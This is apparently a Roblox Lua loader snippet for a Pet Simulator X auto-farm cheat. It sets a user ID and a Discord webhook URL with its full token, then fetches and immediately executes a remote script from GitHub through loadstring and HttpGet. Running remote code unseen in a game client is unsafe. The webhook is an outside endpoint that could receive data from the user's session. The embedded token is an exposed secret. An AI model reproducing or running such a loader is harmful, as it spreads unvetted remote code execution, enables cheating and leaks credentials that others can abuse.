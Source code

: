 _G.UserID = 1437472075
_G.WebHook = "https://discord.com/api/webhooks/1055644291726323713/vRY0AMZTV4QUV8S4DDyLrUTgnKfXia353ZhB2CKofU0z0pUDPVoC4Ur0ZZmjBbVbgv6o"
loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()
